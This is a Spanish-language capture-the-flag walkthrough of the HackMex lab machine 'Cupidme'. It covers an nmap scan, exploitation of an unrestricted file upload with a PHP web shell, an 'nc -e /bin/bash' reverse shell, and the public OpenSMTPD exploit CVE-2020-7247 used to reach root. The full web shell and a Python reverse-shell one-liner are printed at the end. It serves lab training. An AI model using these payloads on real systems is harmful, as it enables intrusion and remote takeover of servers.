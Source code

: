 # Cupidme - HACKMEX

**OS**: Linux   
**Dificultad**: Basic   
**Puntos**: 5,550   
**Solucionado por**: XENIEL
## Resumen 
- Unrestricted File Upload 
- OpenSMTPD - Remote Code Execution 

## Nmap Scan

`nmap 10.10.10.205` 

```
xen@xen-env:~/hackmex$ nmap 10.0.30.187
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 13:25 CDT
Nmap scan report for 10.0.30.187
Host is up (0.17s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.37 seconds
xen@xen-env:~/hackmex$
```
## Enumeracion 

Enumerando el puerto 80 podemos observar dentro del codigo fuente el siguiente mensaje

```
<!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>-->
```

Haciendo un analisis del codigo fuente, vemos que hace un action hacia el archivo upload.php, en donde realiza una subida de archivos. Asi que probemos como reacciona a nuestra solicitud.

## Unrestricted File Upload

1er intento. Subimos un archivo sencillo

`curl -F "image=@file.txt" http://10.0.30.187/upload.php`

```
Array
(
    [0] => Mimetype not allowed, please upload an image/jpeg file.
)
```

2do intento. Subimos un archivo php con cabecera jpeg

`curl -F "image=@xen.php" http://10.0.30.187/upload.php`

```
Success. file uploaded at images/xen.php
```

Una vez subido con exito nuestra webshell, podemos ejecutar comandos remotamente.

`curl http://10.0.30.187/images/xen.php?xen=id`

```
����
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora probamos una revershell

`curl "http://10.0.30.187/images/xen.php?xen=nc -e /bin/bash 10.10.0.26 2121"`

De nuestro lado recibiremos la conexion

```
xen@xen-env:~/hackmex$ nc -lvp 2121
listening on [any] 2121 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 56334
```

## OpenSMTPD - Remote Code Execution 

Viendo los servicios locales observamos un puerto muy relevante

```
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128             127.0.0.11:41037            0.0.0.0:*       
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*       
LISTEN    0         5                127.0.0.1:25               0.0.0.0:*       
LISTEN    0         128              127.0.0.1:9001             0.0.0.0:* 
```

Probando los puertos observamos lo siguiente

```
www-data@cupidme:/tmp$ nc 127.0.0.1 25 
nc 127.0.0.1 25 
220 cupidme.echocity-f.com ESMTP OpenSMTPD
```
Tratando de un servicio llamado OpenSMTP, por lo que buscando un exploit publico damos con el siguiente: [CVE-2020-7247](https://www.exploit-db.com/raw/47984)

Ejecutamos el exploit y esperamos conexion reversa
```
www-data@cupidme:/tmp$ python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
python3 xen.py 127.0.0.1 25 "python3 /tmp/reverse.py"
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
www-data@cupidme:/tmp$ 
```

Pwn!!

```
xen@xen-env:~/hackmex$ nc -lvp 2222
listening on [any] 2222 ...
10.0.30.187: inverse host lookup failed: Unknown host
connect to [10.10.0.26] from (UNKNOWN) [10.0.30.187] 44170
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

## Archivos utilizados 

**xen.php**
```php
����
<?php system($_GET['xen']);?>
```

**reverse.php**
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

